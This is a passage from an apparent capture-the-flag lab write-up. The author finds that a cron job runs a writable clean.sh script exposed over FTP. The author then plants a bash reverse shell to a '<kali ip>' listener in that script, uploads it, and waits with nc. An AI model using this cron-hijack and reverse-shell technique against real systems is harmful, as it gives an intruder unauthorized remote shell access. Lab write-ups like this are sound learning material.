 ```bash
```
so if varible `tmp_files` is 0 then it will add "Running cleanup script:  nothing to delete" in `removed_files.log` which is another file we found in FTP (above)


At this point, I assume that there is a cronjob that keep execute `clean.sh` since `removed_files.log` contains many "Running cleanup script:  nothing to delete" in the files. To prof that, we can connect to ftp again and try to `ls -la` and check the last modified time on `removed_files.log`.

![clean.sh](../pic/Screenshot%202020-08-08%20at%2016.44.37.png)


Bingo! my assumtion is correct. as you can se the last modified time on `removed_files.log` changed from **14.43** to **14.44**. This prof that there is a cronjob that execute `clean.sh` each minute


At this point, I stop `stegcracker` 
# Foot hold
To get the foothold on the victim server, we will modify `clean.sh` by adding a reverse shell payload. Thereafter we will put the script a back to victim server and wait for cronjob to execute it.

add ```bash -i >& /dev/tcp/<kali ip>/6969 0>&1``` to the script. it should now look like this 
```bash
#!/bin/bash

bash -i >& /dev/tcp/<kali ip>/6969 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
Then connect to ftp, run ```put clean.sh``` to upload our script, also run ```nc -nvlp 6969``` and wait for it
```console
bibo318@parrot:~/THM/anonymous$ nc -nlvp 6969
```